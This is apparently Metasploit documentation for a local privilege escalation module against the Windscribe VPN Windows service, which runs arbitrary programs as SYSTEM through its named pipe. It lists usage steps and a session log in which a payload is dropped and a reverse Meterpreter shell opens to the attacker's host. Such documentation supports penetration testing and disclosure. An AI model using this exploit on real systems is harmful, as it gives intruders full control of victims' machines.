 ## Description

  The Windscribe VPN client application for Windows makes use of a
  Windows service `WindscribeService.exe` which exposes a named pipe
  `\\.\pipe\WindscribeService` allowing execution of programs with
  elevated privileges.

  Windscribe versions prior to 1.82 do not validate user-supplied
  program names, allowing execution of arbitrary commands as SYSTEM.


## Vulnerable Application

  This module has been tested successfully on [Windscribe](https://windscribe.com/)
  version 1.80 and 1.81 on Windows 7 SP1 (x64).

  Download:

  * https://assets.windscribe.com/desktop/win/Windscribe_1.80.exe
  * https://assets.windscribe.com/desktop/win/Windscribe_1.81.exe


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/windscribe_windscribeservice_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf5 > use exploit/windows/local/windscribe_windscribeservice_priv_esc 
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > set session 1
  session => 1
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > check
  [*] The service is running, but could not be validated.
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload (283 bytes) to C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe ...
  [*] Sending C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe to \\.\pipe\WindscribeService ...
  [+] Opened \\.\pipe\WindscribeService! Proceeding ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49365) at 2020-01-31 19:14:31 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : TEST
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```

